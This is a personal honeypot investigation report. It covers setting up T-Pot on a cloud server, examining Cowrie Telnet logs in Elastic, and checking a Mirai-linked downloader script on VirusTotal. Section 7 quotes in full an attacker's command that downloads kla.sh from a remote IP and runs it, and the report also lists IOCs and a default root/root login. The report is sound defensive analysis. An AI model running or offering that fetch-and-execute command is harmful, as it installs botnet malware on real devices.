# T-Pot Honeypot Investigation: Mirai Malware Detection & Threat Intelligence


**Investigation Date:** November 18, 2026  
**Project Category:** SOC Analysis | Threat Intelligence | Malware Investigation  
**Technologies:** Vultr, Ubuntu Linux, T-Pot, Cowrie, Elastic Stack, VirusTotal  
**Attack Vector:** Telnet (TCP/23)  
**Threat Classification:** Mirai-associated Linux malware

---

## 1. Project Overview

I deployed a T-Pot honeypot on a Vultr cloud server to monitor, capture, and investigate real-world malicious activity targeting publicly accessible systems.

Using Cowrie and the Elastic Stack, I examined suspicious authentication attempts, attacker commands, and malware download activity. The investigation led to the discovery of a malicious shell script associated with the Mirai malware family.

The primary objectives were to:

- Monitor real-world attacks against an internet-facing honeypot.
- Identify suspicious authentication attempts and attacker behavior.
- Investigate malicious commands using Elastic.
- Extract indicators of compromise (IOCs).
- Analyze captured malware artifacts using VirusTotal.
- Correlate honeypot telemetry with external threat intelligence.

## 2. Lab Environment and Deployment

| Component | Purpose |
| --- | --- |
| Vultr | Cloud infrastructure hosting the honeypot |
| Ubuntu 26.04 LTS | Underlying server operating system shown during deployment |
| T-Pot 24.04.1 | Multi-honeypot platform |
| Cowrie | Simulated SSH/Telnet service and interaction logging |
| Elastic Stack | Centralized event searching and investigation |
| VirusTotal | Malware reputation, classification, and behavioral intelligence |

### Phase 1: Provisioning the cloud server

1. Logged into **Vultr** and navigated to **Compute → Create Instance**.
2. Selected the **Los Angeles** region, a **Shared CPU** instance with **4 vCPUs and 8 GB RAM**, and **Ubuntu 26.04 LTS x64**.
3. Configured the instance and connected through PowerShell using SSH.

```bash
ssh root@<public_ip>
```



The deployment screenshot shows a **$40/month instance** plus **$8/month automatic backups**, for a **$48/month displayed estimate**. These were the selected settings, not a statement about final billed charges.

### Phase 2: Ubuntu configuration and preparation

1. Updated the package repositories and installed available upgrades.
2. Created a non-root user named `zach`, assigned sudo privileges, and switched into that account.
3. Cloned the official T-Pot repository into the user's home directory.

```bash
apt-get update
apt-get upgrade -y
adduser zach
usermod -aG sudo zach
su - zach
git clone https://github.com/telekom-security/tpotce
cd tpotce
```





### Phase 3: Installing T-Pot

I launched the T-Pot installer:

```bash
./install.sh
```

The initial installer check detected that **TCP/53 and UDP/53 were already occupied**. T-Pot required the conflicting service to be identified and disabled before proceeding. The screenshots show the warning but do not identify the exact service or the remediation command.



After resolving the conflict, I continued the installation. The Ansible output confirmed that the operating system and version were supported.





The installer then presented the available deployment profiles, including **Hive**, **Sensor**, **LLM**, **Mini**, **Mobile**, and **Tarpit**. I selected the **Hive** profile to run a centralized honeypot deployment with the included monitoring components.



T-Pot downloaded the required container images, including Cowrie, Honeytrap, Tanner, Elasticsearch, and Kibana.



After installation, I rebooted the server and reconnected over the T-Pot SSH port. I then accessed the web interface using HTTPS.

```bash
ssh -p 64295 zach@<public_ip>
```

```text
https://<public_ip>:64297
```

These are the T-Pot management ports used in this setup. Administrative access should be restricted to trusted source IP addresses.



## 3. Monitoring Live Honeypot Activity

Once the honeypot was exposed, T-Pot began recording incoming activity. The live Attack Map displayed source IPs, geographic enrichment, targeted services, and recent connection events.



The Elastic dashboard provided an overview of honeypot events. At the time of the screenshot, it displayed **288 total attacks** in the selected time window, including **148 Cowrie**, **70 Honeytrap**, **65 Tanner**, **4 Dionaea**, and **1 Honeytr4p** events.



These counts represent the dashboard's event classifications, not 288 confirmed successful compromises.

## 4. Initial Detection in Elastic

I used **Elastic → Discover** to review incoming telemetry and identify suspicious activity. The broader event view included network and security data, so I narrowed the investigation to **Cowrie** events.





While reviewing Cowrie telemetry, I identified suspicious Telnet activity originating from:

```text
160.119.66.206
```

### Network information

| Field | Observed value |
| --- | --- |
| Source IP | `160.119.66.206` |
| Source ASN | AS49870 |
| Source organization | Alsycon B.V. |
| GeoIP country | Seychelles |
| Destination public IP | `149.28.82.42` |
| Honeypot internal IP | `172.21.0.2` |
| Destination port | TCP/23 |
| Protocol | Telnet |
| Honeypot | Cowrie |
| Event time | Approximately 22:46 Pacific |
| Hostname | `MTS-Web-Server1` |

Geolocation and ASN data describe the network attribution available in the logs. They do not establish the attacker's identity or physical location.

### Connection event

```yaml
Event: cowrie.session.connect
New connection: 160.119.66.206:52980 (172.21.0.2:23)
Session: 89686adf6b6b
```

This confirmed that an external system connected to Cowrie's simulated Telnet service.

## 5. Authentication Analysis

Cowrie recorded a successful **simulated** login using default credentials:

```yaml
Username: root
Password: root
Event: cowrie.login.success
Message: login attempt [root/root] succeeded
```

Default credentials are commonly targeted by automated attacks against Linux and IoT systems. The successful login occurred inside Cowrie's simulated environment and did **not** establish compromise of the underlying Vultr host.

## 6. Attacker Command Analysis

After authentication, the attacker submitted Linux shell commands:

```bash
system
sh
ls /home; /bin/busybox BOTNET
```

| Command | Analysis |
| --- | --- |
| `system` | Cowrie recorded `Command not found: system` |
| `sh` | Attempted to invoke a shell |
| `ls /home` | Listed a common Linux directory to inspect the environment |
| `/bin/busybox BOTNET` | Attempted to invoke BusyBox, a utility suite common on embedded Linux and IoT devices; Cowrie reported the command was not found |

These commands were consistent with automated reconnaissance and preparation for malware delivery. BusyBox use alone is not proof of a particular malware family.

## 7. Malware Download and Execution Attempt

The attacker subsequently submitted a longer command intended to retrieve and run a remote shell script.

```bash
cd /tmp 2>/dev/null || cd /var 2>/dev/null || cd /dev/shm 2>/dev/null || cd /run 2>/dev/null || cd /root 2>/dev/null || cd /;
rm -f kla.sh;
wget -O kla.sh http://160.119.66.206/bins/kla.sh 2>/dev/null ||
busybox wget -O kla.sh http://160.119.66.206/bins/kla.sh 2>/dev/null ||
curl -sLo kla.sh http://160.119.66.206/bins/kla.sh 2>/dev/null;
chmod 777 kla.sh;
sh kla.sh telnet&
```

**Directory selection:** The attacker attempted several possible writable locations, including `/tmp`, `/var`, `/dev/shm`, `/run`, and `/root`.

**File removal:** `rm -f kla.sh` attempted to remove an existing copy before downloading a new one.

**Payload retrieval:** `wget`, `busybox wget`, and `curl` provided alternative methods for downloading the same script across different Linux environments.

**Permission modification:** `chmod 777 kla.sh` attempted to give the script broad permissions.

**Execution:** `sh kla.sh telnet&` attempted to execute the script in the background with `telnet` as an argument.

The sequence was consistent with an automated malware deployment attempt. The recorded command alone does not prove that malicious code executed on the underlying server.

## 8. Captured Malware Artifact

Cowrie recorded download activity for the script:

```yaml
Event: cowrie.session.file_download
Downloaded URL: http://160.119.66.206/bins/kla.sh
```

| Field | Value |
| --- | --- |
| Filename | `kla.sh` |
| File type | Linux shell script |
| Download URL | `http://160.119.66.206/bins/kla.sh` |
| SHA-256 | `39be6853a8204ce6455a373a6ffb4cb4672d4a62d90be69f7d6eeb66cda10b96` |
| Cowrie storage directory | `/home/cowrie/cowrie/dl/` |

The telemetry included successful and unsuccessful download attempts. The captured artifact could be investigated by hash without manually executing it on the host.

## 9. VirusTotal Investigation: `kla.sh`

I searched the captured SHA-256 hash in VirusTotal to determine whether the script was recognized by security vendors.

| Attribute | Result |
| --- | --- |
| Filename | `kla.sh` |
| File type | Shell script |
| Size | Approximately 3.17 KB |
| Malicious detections | **32/60** |
| Popular threat label | `downloader.bash/mirai` |
| Associated categories | Downloader, Trojan, Dropper |



VirusTotal's behavioral analysis showed that the script attempted to retrieve additional executables from the same remote server.



The recorded HTTP requests targeted multiple Linux CPU architectures, including x86, x86_64, ARM, and MIPS.



This was significant because Linux-based IoT devices use different processor architectures. The script appeared to function as an **initial-stage downloader** rather than the final botnet executable.

VirusTotal's file metadata confirmed the script's SHA-256 and file type.

